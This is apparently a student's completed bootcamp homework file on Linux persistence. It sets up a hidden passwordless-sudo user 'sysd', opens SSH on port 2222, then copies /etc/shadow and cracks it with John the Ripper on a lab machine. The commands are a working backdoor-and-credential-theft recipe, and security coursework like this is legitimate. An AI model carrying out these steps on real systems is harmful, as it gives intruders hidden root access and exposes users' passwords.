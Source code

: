 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    ```
    adduser sysd --no-create-home
    ```


2. Give your secret user a password: 
    - `hack0rz'

3. Give your secret user a system UID < 1000:
    ```
    usermod -u 200 sysd
    ```

4. Give your secret user the same GID:
    ```
    groupmod -g 200 sysd
    ```

5. Give your secret user full `sudo` access without the need for a password:
    ```
    visudo
  
    ```
    - gain access to sudoers file to edit and add the following line:

        - sysd  ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:
    - su to sysd user profile
    ```
    sudo su sysd
    whoami
    sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    nano /etc/ssh/sshd_config
    ```
    - once inside the config file, added the following uncommented line under Port 22
        - **Port 2222**
    - also uncommented Port 22 so that both ports are open then configured the firewall to allow port 2222 access to SSH
    ```
    ufw allow 2222/tcp
    ```
    - restarted the sshd service
    ```
     systemctl restart sshd
    ```
    - confirmed status of sshd service
    ```
    systemctl status sshd
    ```
    - confirmed server was now listening on port 22 and port 2222.
    
**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    ```
    systemctl restart sshd
    ```

2. Exit the `root` account:
    ```
    exit
    ```

3. SSH to the target machine using your `sysd` account and port `2222`:
    ```
    ssh sysd@192.168.6.105 -p 2222
    ```

4. Use `sudo` to switch to the root user:
    ```
    sudo su
    ```

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    ```
    ssh sysd@192.168.6.105 -p 2222
    ```


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - escalate priveleges
    ```
    sudo su
    ```
    - once I am root, copied the /etc/shadow file to the tmp directory
    ```
    cat /etc/shadow > /tmp/shadow.txt
    ```
    - Ran john the ripper on the shadow.txt file.
    ```
    john /tmp/shadow.txt
    ```

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

